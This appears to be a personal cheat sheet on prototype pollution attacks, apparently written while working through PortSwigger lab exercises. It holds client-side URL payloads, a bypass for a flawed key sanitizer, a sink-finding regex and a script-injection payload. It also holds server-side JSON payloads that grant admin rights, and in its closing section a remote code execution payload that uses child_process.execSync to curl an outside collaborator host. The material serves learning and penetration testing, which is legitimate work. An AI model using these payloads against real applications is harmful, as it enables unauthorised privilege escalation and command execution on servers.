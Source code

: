[#](#) Prototype Pollution

> While browsing, `?constructor[prototype]...` content flashes in the URL bar? Yes, then try to exploit this...

## Prototype Pollution (DOM Invader)

Note: sometimes there's sanitizer blocking the detection (see manual)

1. Turn On Dom Invader
2. Attack -> Turn On Prototype Attacks
3. Browse normally the app and check the Dom tab
4. Scan for gadget -> Exploit -> If Not working, look at the sink value -> Any trailing caracter -> Add - or ; after the payload

## Manual

Find Prototype Source:

1. Prototype pollution vectors
2. 
    ```
    /?__proto__.foo=bar
    /?__proto__[foo]=bar
    /?constructor.prototype.foo=bar
    ```
3. Console: `Object.prototype`

    Injection

    `{foo: 'bar', __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

    No Injection:

    `{ __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

        Is there a santizer?

            ```
            // Vulnerability: not recurrent replace
            // Exploit: __pro__proto__to__ (i.e.: sandwich)
            
            function sanitizeKey(key) {
                let badProperties = ['constructor','__proto__','prototype'];
                for(let badProperty of badProperties) {
                    key = key.replaceAll(badProperty, '');
                }
                return key;
            }
            ```
            
Find a Sink:

```
(document\.|window\.)(write|writeln|createElement|domain)|location|eval|setTimeout|setInterval|innerHTML|outerHTML|insertAdjacentHTML|window\.open|onevent|Function
```


```
async function searchLogger() {

    // Object
    
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
    
        // Sink -> /?__proto__[transport_url]=data:,alert(1);
        
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

## Server Side


POST /ChaneAddress

```
{
    "City": "foo",
    "Address": 1234,
}
```

HTTP/2 200 OK

```
{
    "username": "wiener",
    "City": "foo",
    "Address": 1234,
    "isAdmin":true
}

```

Mass assignement not working? Try prototype pollution.

```
{
    "City": "foo",
    "Address": 1234,
    "__proto__": {
        "isAdmin":"true"
    }
}
```
    
Non-destructive method:

```
...
"__proto__": {
    "status":555
}
...
```

If not working, try to break the JSON format and keep the above.

Bypass flawed input filter with Constructor
NOTE: this can crash server, so it's better to start with more  easy stuff...

```
"constructor": {
    "prototype": {
        "json spaces":10
    }
}
```

```
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

The lab is lagging...
https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution

```
{
    "csrf":"OqwKew95Z7pzmd0On7q0LAqXPySnw7lt",
    "sessionId":"AKySV3lDI1AMJSlnXSTuBywAwhvdrlN0",
    "tasks":["db-cleanup",
    "fs-cleanup"],
    "__proto__": {
        "execArgv":[
            "--eval=require('child_process').execSync('curl https://d5jw5pbq9uqpxi5hosro1rlm2d85wykn.oastify.com')"
        ]
    }
}
```
